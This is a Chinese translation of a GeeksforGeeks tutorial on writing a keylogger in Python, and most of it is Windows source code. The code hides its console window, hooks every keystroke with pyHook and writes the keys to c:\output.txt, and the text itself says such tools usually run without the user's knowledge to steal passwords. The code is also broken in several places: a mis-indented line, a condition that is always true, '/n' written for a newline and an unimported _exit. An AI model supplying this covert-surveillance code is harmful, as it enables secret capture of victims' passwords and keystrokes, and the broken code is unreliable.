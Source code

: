 # 用 Python 设计一个键盘记录器

> 原文:[https://www.geeksforgeeks.org/design-a-keylogger-in-python/](https://www.geeksforgeeks.org/design-a-keylogger-in-python/)

击键记录是记录(记录)在键盘上按下的键的过程(通常在用户不知道的情况下)。它也被称为键盘记录或键盘捕获。
这些程序用于排除计算机和商业网络的技术问题。它也可以用来监控网络使用情况，但更多时候它被用于恶意目的，如窃取密码。
本文展示了为 windows 和 Linux 设计一个键盘记录器。

**视窗键盘记录器**

下载一些 python 库
1)[pywin32](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pywin32)T3】2)[pyhook](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook)'
下面是用 python 创建键盘记录程序的代码

## 蟒蛇 3

```py
# Python code for keylogger
# to be used in windows
import win32api
import win32console
import win32gui
import pythoncom, pyHook

win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

def OnKeyboardEvent(event):
    if event.Ascii==5:
        _exit(1)
    if event.Ascii !=0 or 8:
    #open output.txt to read current keystrokes
        f = open('c:\output.txt', 'r+')
        buffer = f.read()
        f.close()
    # open output.txt to write current + new keystrokes
        f = open('c:\output.txt', 'w')
        keylogs = chr(event.Ascii)
        if event.Ascii == 13:
        keylogs = '/n'
        buffer += keylogs
        f.write(buffer)
        f.close()
# create a hook manager object
hm = pyHook.HookManager()
hm.KeyDown = OnKeyboardEvent
# set the hook
hm.HookKeyboard()
# wait forever
pythoncom.PumpMessages()
```